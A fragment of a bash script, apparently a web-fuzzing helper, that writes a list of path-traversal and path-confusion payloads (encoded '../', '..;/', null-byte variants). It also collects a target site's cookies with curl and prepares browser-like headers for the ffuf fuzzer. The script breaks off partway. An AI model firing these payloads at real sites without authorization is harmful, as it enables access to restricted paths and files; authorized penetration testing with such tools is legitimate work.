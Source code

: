 ```bash
# Define path confusion payloads
cat > "$PAYLOAD_FILE" << EOF
%2e%2e
%2F
%2e%2F
%2f%2e
%2e%2e%2f
%2e%2e%2f%2e%2e%2f
%2f%2e%2e%2f
%2f%2e%2e
%252e%252e%252f
..;/
.;/
../
..../
....//
/..;/
/../
/..%00/
/./
%3f
%5c
%252f
/%2e%2e/
;/../
././
%5c%2e%2e%5c
..;/..
EOF

# User-Agent and headers
USER_AGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0"

HEADERS=(
    "User-Agent: $USER_AGENT"
    "Accept: */*"
    "Accept-Language: en-US,fa-IR;q=0.5"
    "Accept-Encoding: gzip, deflate, br, zstd"
    "Connection: keep-alive"
    "Upgrade-Insecure-Requests: 1"
    "Sec-Fetch-Dest: script"
    "Sec-Fetch-Mode: no-cors"
    "Sec-Fetch-Site: cross-site"
    "DNT: 1"
    "Sec-GPC: 1"
    "Priority: u=0, i"
    "Te: trailers"
)

# Extract cookies from response headers
curl -s -I "$WEBSITE" | awk 'BEGIN {IGNORECASE=1} /^set-cookie:/ {print substr($0, 13)}' > "$COOKIE_FILE"

# Process cookies
COOKIES=$(awk -F';' '{print $1}' "$COOKIE_FILE" | tr '\n' '; ' | sed 's/; $//')

# Append cookies if available
if [[ -n "$COOKIES" ]]; then
    HEADERS+=("Cookie: $COOKIES")
fi

# Convert headers into ffuf parameters
HEADER_PARAMS=()
```